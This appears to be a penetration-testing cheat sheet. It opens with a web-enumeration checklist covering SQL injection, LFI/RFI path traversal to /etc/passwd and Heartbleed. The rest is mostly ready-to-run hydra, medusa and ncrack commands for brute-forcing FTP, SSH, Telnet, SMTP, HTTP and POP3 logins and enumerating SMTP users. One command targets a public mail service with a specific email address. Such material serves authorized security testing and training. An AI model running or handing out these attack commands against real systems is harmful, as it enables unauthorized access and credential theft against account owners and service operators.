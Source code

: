 ###  HTTP Enumerating
- Brute-force , check http , https website ,enumerate one by one
- default login for service or applicatin  , check reset password
- check Default credentials for software
- SQL-injectable GET/POST params
- LFI/RFI through ?page=foo type params /etc/passwd , ../../../../../boot.ini
- Check config.php and get sql login
- Heartbleed / CRIME find out potential correct vhost to GET , any names that could be usernames for bruteforce/guessing

### Xprobe2 OS fingerprinting

xprobe2 -v -p tcp:80:open IP


### Brute-force 
FTP :
hydra -l superuser -P pwd.txt -v -f -e ns -t 5 -w 20 192.168.67.132 ftp >> brute_ftp.out
hydra -t 5 -V -f -l root -P common.txt ftp://192.168.67.132 >> brute_ftp.out
hydra -v -f -l ftp -P fpass.lst -t 10 ftp://11.11.11.11 >> brute_ftp.out
hydra -l root -P 500-worst-passwords.txt 10.10.10.10 ftp
medusa -u test -P 500-worst-passwords.txt -h 10.10.10.10 -M ftp
medusa -M ftp -h host -u username -p password

SSH :
medusa -h 10.10.XX -P /root/pasword.txt -u root -M ssh
ncrack -p ssh -u root --pass 'root' -iL in
hydra -t 5 -V -f -l root -P common.txt localhost ssh >> brute_ssh.out
hydra -v -l root -P 500-worst-passwords.txt 10.10.10.10 ssh >> brute_ssh.out
hydra -v -l root -P fpass.lst -t 5 ssh://ip -o brute_ssh.out

Telnet :
hydra -v -l root -P fpass.lst -t 5 telnet://$ip >> brute_telnet.out
hydra -l username -P wordlist -t 4 -s 23 -e ns -f -v 10.10.10.10 telnet >> brute_telnet.out
medusa -h 192.168.0.171 -M telnet -U user.txt -P password.txt

SMTP :
medusa -M smtp -m AUTH:NTLM -U accounts.txt -p password
medusa -M smtp -m EHLO:world -U accounts.txt -p password

SMTP VRFY :
medusa -M smtp-vrfy -m VERB:VRFY -U accounts.txt -p domain.com
smtp-user-enum -M VRFY -U /home/weak_wordlist/userall.txt -t 192.168.3.10

SMTP RCPT TO :
medusa -M smtp-vrfy -m VERB:RCPT TO -U accounts.txt -p domain.com

HTTP :
hydra -m /tip/ -L Userid.txt -p 12345678 -e s -V -f 10.12.80.80 http-get

HTTPS :
hydra -m /tip/ -L Userid.txt -P List.txt -e s -V -f 10.12.80.80 https-get

POP3 :
medusa -M pop3 -m MODE:AS400 -U accounts.txt -p password
medusa -M pop3 -m DOMAIN:foo.com -U accounts.txt -p password
hydra -l muts -P pass.txt my.pop3.mail pop3 >> brute_pop3.out
hydra -S -l myemailaddress@hotmail.co.uk -P password.lst pop3.live.com -s 995 pop3 >> brute_pop3.out
